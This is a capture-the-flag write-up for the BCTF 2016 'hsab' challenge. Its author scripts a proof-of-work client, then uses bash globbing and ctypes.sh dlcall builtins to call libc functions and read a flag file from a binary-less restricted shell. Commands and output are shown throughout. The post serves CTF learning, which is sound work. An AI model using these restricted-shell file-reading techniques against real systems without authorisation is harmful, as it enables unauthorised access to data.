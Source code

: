 ```yaml
---
id: 654
title: 'BCTF 2016 - HSAB - Misc Category Challenge'
date: 2016-03-21T04:58:04+00:00
author: Kris
layout: post
guid: https://ctf.rip/?p=654
permalink: /bctf-2016-hsab-misc-category-challenge/
themepixels_post_link_target:
  - 'yes'
themepixels_enable_post_header:
  - default
themepixels_enable_post_meta_single:
  - default
themepixels_enable_post_featured_content:
  - default
themepixels_enable_post_categories:
  - default
themepixels_enable_post_tags:
  - default
themepixels_enable_post_share:
  - default
themepixels_enable_post_author_info_box:
  - default
themepixels_enable_related_posts:
  - default
themepixels_enable_post_next_prev_links:
  - default
themepixels_enable_topbar:
  - default
themepixels_enable_sticky_header:
  - default
themepixels_header_layout:
  - default
themepixels_site_layout:
  - default
themepixels_sidebar_position:
  - default
post_views_count:
  - "1514"
image: /images/2016/03/hsab.png
categories:
  - Write-Ups
tags:
  - bash
  - bctf
  - ctypes.sh
  - misc
---
```

What a fun challenge. I've heard of some very simple solutions after I solved it but I'm fairly certain this way is the intended solution.

We're given a server we can connect to (after solving a proof of work) that just drops us at a bash command prompt. There's very little to the clue, in fact, no text, just a name "hsab" and a IP and port to connect to so nothing else there.

First thing we find out is that there's no binaries on the server. So no `ls` no `cat`. You have `bash` and that's it. You also get dropped very quickly, like you have about 10 seconds then you get booted off.

I quickly hack this client together to try somethings:

```
#!/usr/bin/python

from pwn import *
import string
import hashlib
import itertools

host = '104.199.132.199'
port = 2222

while True:
    try:
        conn = remote(host,port)
        chall = conn.recvline().split('\'')[1]
        print "[*] Connecting - challenge: " + chall
        for i in itertools.product(string.ascii_letters + string.digits, repeat=7):
            attempt = ''.join(i)

            ha = hashlib.sha256()
            ha.update(chall + attempt)

            if ha.hexdigest().startswith("00000"):
                break

        conn.sendline(chall + attempt)
        conn.interactive()
    except KeyboardInterrupt:
        conn.close()
        pass
```



We can do a rudimentary listing of the filesystem with `echo *` and we find that the flag is most likely in the `/home/ctf/flag.ray` file.

```
root@kali:~/bctf/misc/hsab# ./hsab.py 
[+] Opening connection to 104.199.132.199 on port 2222: Done
[*] Connecting - challenge: kosdnoms
[*] Switching to interactive mode
-bash-4.4$ $ echo /*
/bin /dev /etc /home /lib /lib64 /proc /run /sys /usr
-bash-4.4$ $ echo home/*
home/ctf
-bash-4.4$ $ echo home/ctf/*
home/ctf/flag.ray
-bash-4.4$ $ echo bin/*
bin/bash bin/server
-bash-4.4$ $ echo usr/bin/*
usr/bin/bash usr/bin/server
-bash-4.4$ 
server: timeout
```

Ok so no software and need to read a file. Is the file even readable? We don't know! I begin to research "bash builtins" looking for a flag that will cat our file. On a whim I checked the environment with "set":

```
-bash-4.4$ $ set
BASH=/bin/bash
BASHOPTS=cmdhist:complete_fullquote:expand_aliases:extquote:force_fignore:hostcomplete:interactive_comments:login_shell:promptvars:sourcepath
...
RTLD_DEFAULT=0x0
RTLD_NEXT=0x-1
...
TERM=dumb
UID=1000
_=:
builtins=([0]="callback" [1]="dlcall" [2]="dlclose" [3]="dlopen" [4]="dlsym" [5]="pack" [6]="unpack")
```

Hmm what's this in the builtin's array in the environment? A quick google search turns up this which I recall reading when Tavis posted it a little while back: <a href="https://github.com/taviso/ctypes.sh/wiki" target="_blank">https://github.com/taviso/ctypes.sh/wiki</a>

So it appears that ctypes.sh plugin may be loaded into this shell? Let's do the "Hello world" test:

```
-bash-4.4$ $ dlcall puts "Hello, World"
Hello, World
```

Ok cool. So basically we can use dynamic library functions on this bash command line. libc seems to already be loaded so we map out what we need to do:

  * Is the flag readable? If so
  * fopen the /home/ctf/flag.ray and get a file handle
  * malloc a buffer
  * fread from the file handle into our buffer
  * printf the output

Let's check #1 - is the flag readable? Tavis gives us a "stat" example so lets use his example!

```
dlcall -n statbuf -r pointer malloc 1024
declare -a stat
{
    unset n
    stat[st_dev     = n++]="long"
    stat[st_ino     = n++]="long"
    stat[st_nlink   = n++]="long"
    stat[st_mode    = n++]="int"
    stat[st_uid     = n++]="int"
    stat[st_gid     = n++]="int"
    stat[             n++]="int"
    stat[st_rdev    = n++]="long"
    stat[st_size    = n++]="long"
    stat[st_blksize = n++]="long"
    stat[st_blocks  = n++]="long"
}
dlcall __xstat 0 "/home/ctf/flag.ray" $statbuf
unpack $statbuf stat
printf "/home/ctf/flag.ray\n"
printf "\tuid:  %u\n" ${stat[st_uid]##*:}
printf "\tgid:  %u\n" ${stat[st_gid]##*:}
printf "\tmode: %o\n" ${stat[st_mode]##*:}
printf "\tsize: %u\n" ${stat[st_size]##*:}
dlcall free $statbuf
```



I just paste it straight in at the prompt  <img src="https://ctf.rip/images/classic-smilies/icon_smile.gif" alt=":)" class="wp-smiley" style="height: 1em; max-height: 1em;" />The important part of the result is:

```
-bash-4.4$ printf "\tmode: %o\n" ${stat[st_mode]##*:}
    mode: 100644
```

Phew we don't have to escalate privs the file is mode 0644! Let's begin reading it. Here's the code I came up with after struggling with syntax for a short while:

```
dlcall -n fd -r pointer fopen "/home/ctf/flag.ray" "r"
dlcall -n flagbuf -r pointer malloc 1024
dlcall -n flagbuf fread $flagbuf 1024 1 $fd
dlcall printf "%s" $flagbuf
```

And when we paste that in we're rewarded with the flag:

```
-bash-4.4$ $ dlcall -n fd -r pointer fopen "/home/ctf/flag.ray" "r"
pointer:0x1696be0
-bash-4.4$ dlcall -n flagbuf -r pointer malloc 1024
pointer:0x1697240
-bash-4.4$ dlcall -n flagbuf fread $flagbuf 1024 1 $fd
-bash-4.4$ dlcall printf "%s" $flagbuf
#BCTF{ipreferzshtobash}
-bash-4.4$ 
server: timeout
```